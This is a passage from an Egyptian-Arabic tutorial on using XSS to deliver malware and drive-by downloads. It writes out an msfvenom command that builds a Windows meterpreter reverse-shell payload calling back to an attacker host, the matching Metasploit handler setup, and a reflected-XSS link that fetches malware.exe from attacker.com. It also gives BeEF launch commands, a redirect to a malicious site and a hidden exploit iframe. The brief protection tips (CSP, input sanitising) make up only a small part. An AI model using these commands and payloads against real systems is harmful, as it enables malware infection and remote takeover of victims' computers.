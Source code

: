        - أو بيستخدم **Python HTTP Server** بسرعة:
         ```bash
         python3 -m http.server 80
         ```
         - الأمر ده بيخلّي الملف متاح على بورت 80.
     - **إعداد الملف الخبيث**:
       - المهاجم ممكن يستخدم أداة زي **Metasploit** عشان يعمل ملف خبيث:
         ```bash
         msfvenom -p windows/meterpreter/reverse_tcp LHOST=attacker_ip LPORT=4444 -f exe -o malware.exe
         ```
         - الأمر ده بيعمل ملف `.exe` يتصل بالمهاجم لما يتفتح.
       - وبيجهز السيرفر لاستقبال الاتصال:
         ```bash
         msfconsole
         use exploit/multi/handler
         set PAYLOAD windows/meterpreter/reverse_tcp
         set LHOST attacker_ip
         set LPORT 4444
         exploit
         ```
   - **إزاي بيحط السكربت؟**
     - **Stored XSS**: المهاجم بيكتب السكربت في خانة زي التعليقات.
     - **Reflected XSS**: بيعمل لينك زي:
       ```
       http://vulnerable.com/search?q=<script>var link=document.createElement("a");link.href="http://attacker.com/malware.exe";...</script>
       ```
       وبيخلي الضحية يضغط عليه.
   - **الحماية**:
     - استخدم Content Security Policy (CSP) عشان تمنع تحميل ملفات من سيرفرات غريبة.
     - نظف مدخلات المستخدم عشان تمنع السكربتات.

#### 2. **توجيه المستخدم لموقع خبيث**
   - **إزاي بتحصل؟**
     - السكربت بيعمل ريدايركت (تحويل) لموقع خبيث بيحتوي على برمجيات خبيثة (زي drive-by downloads).
   - **الأوامر أو المفاهيم اللي بتُستخدم**:
     - **سكربت JavaScript (نظري)**:
       ```javascript
       window.location = "http://malicious.com";
       ```
       - `window.location`: بيعمل ريدايركت لموقع المهاجم.
     - **إعداد الموقع الخبيث**:
       - المهاجم بيجهز موقع بيحتوي على هجمات زي **exploit kits** (مثل Blackhole أو Angler).
       - بيستخدم أداة زي **BeEF** (Browser Exploitation Framework):
         ```bash
         sudo apt install beef-xss
         beef-xss
         ```
         - الأمر ده بيشغل BeEF، وبيخلّي المهاجم يتحكم في المتصفح بتاع الضحية لما يدخل الموقع.
       - أو بيستخدم خادم ويب مع صفحة تحميل خبيثة:
         ```bash
         python3 -m http.server 80
         ```
         - وبيحط صفحة HTML تحتوي على كود خبيث (زي iframe لتحميل exploit).
     - **إعداد صفحة خبيثة (نظري)**:
       - صفحة HTML تحتوي على iframe:
         ```html
         <iframe src="http://exploit.com/driveby" style="display:none"></iframe>
         ```
         - الـ iframe بيحمل كود خبيث تلقائيًا.
   - **إزاي بيحط السكربت؟**
     - Stored أو Reflected XSS.
   - **الحماية**:
     - استخدم CSP عشان تمنع الريدايركت لمواقع غريبة.